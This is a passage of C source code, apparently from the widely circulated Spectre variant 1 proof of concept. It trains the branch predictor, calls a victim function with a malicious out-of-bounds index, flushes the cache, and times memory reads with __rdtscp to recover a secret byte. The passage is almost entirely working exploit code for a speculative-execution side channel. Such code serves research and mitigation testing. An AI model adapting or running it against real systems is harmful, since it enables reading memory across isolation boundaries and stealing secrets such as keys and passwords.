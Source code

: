 ```c
		training_x = tries % array1_size;
		for (j = 29; j >= 0; j--)
		{
			_mm_clflush(&array1_size);
			for (volatile int z = 0; z < 100; z++)
			{
			} /* Delay (can also mfence) */

			/* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
			/* Avoid jumps in case those tip off the branch predictor */
			x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
			x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
			x = training_x ^ (x & (malicious_x ^ training_x));

			/* Call the victim! */
			victim_function(x);
		}

		/* Time reads. Order is lightly mixed up to prevent stride prediction */
		for (i = 0; i < 256; i++)
		{
			mix_i = ((i * 167) + 13) & 255;
			addr = &array2[mix_i * 512];
			time1 = __rdtscp(&junk); /* READ TIMER */
			junk = *addr; /* MEMORY ACCESS TO TIME */
			time2 = __rdtscp(&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
			if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
				results[mix_i]++; /* cache hit - add +1 to score for this value */
		}

		/* Locate highest & second-highest results results tallies in j/k */
		j = k = -1;
		for (i = 0; i < 256; i++)
		{
			if (j < 0 || results[i] >= results[j])
			{
				k = j;
				j = i;
			}
			else if (k < 0 || results[i] >= results[k])
			{
				k = i;
			}
		}
		if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
			break; /* Clear success if best is > 2*runner-up + 5 or 2/0) */
	}
	results[0] ^= junk; /* use junk so code above won't get optimized out*/
	value[0] = (uint8_t)j;
	score[0] = results[j];
	value[1] = (uint8_t)k;
	score[1] = results[k];
}

int main(int argc, const char* * argv)
{
	printf("Putting '%s' in memory, address %p\n", secret, (void *)(secret));
	size_t malicious_x = (size_t)(secret - (char *)array1); /* default for malicious_x */
	int score[2], len = strlen(secret);
	uint8_t value[2];

	for (size_t i = 0; i < sizeof(array2); i++)
		array2[i] = 1; /* write to array2 so in RAM not copy-on-write zero pages */
```